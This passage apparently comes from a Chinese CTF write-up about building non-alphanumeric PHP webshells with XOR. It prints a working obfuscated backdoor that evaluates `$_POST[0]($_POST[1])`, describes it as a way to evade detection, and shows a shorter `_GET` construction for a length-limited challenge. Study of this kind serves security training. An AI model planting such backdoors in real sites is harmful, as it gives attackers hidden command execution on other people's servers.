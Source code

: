 我们一起来分析一下上面这段代码：

1、`$_++; ` 这行代码的意思是对变量名为 `"_"` 的变量进行自增操作，在 `PHP` 中未定义的变量默认值 `null` ，`null==false==0` ，我们可以在不使用任何数字的情况下，通过对未定义变量的自增操作来得到一个数字。

2、`$__="?" ^ "}"; ` 对字符 `?` 和 `}` 进行异或运算，得到结果 `B` 赋给变量名为 `__` (两个下划线)的变量

3、`$ __ (); ` 通过上面的赋值操作，变量 `$__` 的值为 `B` ，所以这行可以看作是 `B()` ，在 `PHP` 中，这行代码表示调用函数 `B` ，所以执行结果为 `Hello Angel_Kitty` 。在 `PHP` 中，我们可以将字符串当作函数来处理。

看到这里，相信大家如果再看到类似的 `PHP` 后门应该不会那么迷惑了，你可以通过一句句的分析后门代码来理解后门想实现的功能。

我们希望使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如 `_POST` ， `system` ， `call_user_func_array `，或者是任何我们需要的东西。

下面是个非常简单的非数字字母的 `PHP` 后门：

```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在这里我说明下， `.=` 是字符串的连接，具体参看 `PHP` 语法

我们甚至可以将上面的代码合并为一行，从而使程序的可读性更差，代码如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我们回到 `xman` 训练赛的那题来看，我们的想法是通过构造异或来去绕过那串字符，那么我们该如何构造这个字串使得长度小于 `40` 呢？

我们最终是要读取到那个 `getFlag` 函数，我们需要构造一个 `_GET` 来去读取这个函数，我们最终构造了如下字符串：

![](./figure/preg_match/payloads.png)

可能很多小伙伴看到这里仍然无法理解这段字符串是如何构造的吧，我们就对这段字符串进行段分析。

#### 构造 `_GET` 读取

首先我们得知道 `_GET` 由什么异或而来的，经过我的尝试与分析，我得出了下面的结论：

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

这段代码一大坨是啥意思呢？因为40个字符长度的限制，导致以前逐个字符异或拼接的webshell不能使用。  
这里可以使用php中可以执行命令的反引号 `` ` `` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一个字符
- `` ` 表示执行命令
- `" ` 对特殊字符串进行解析

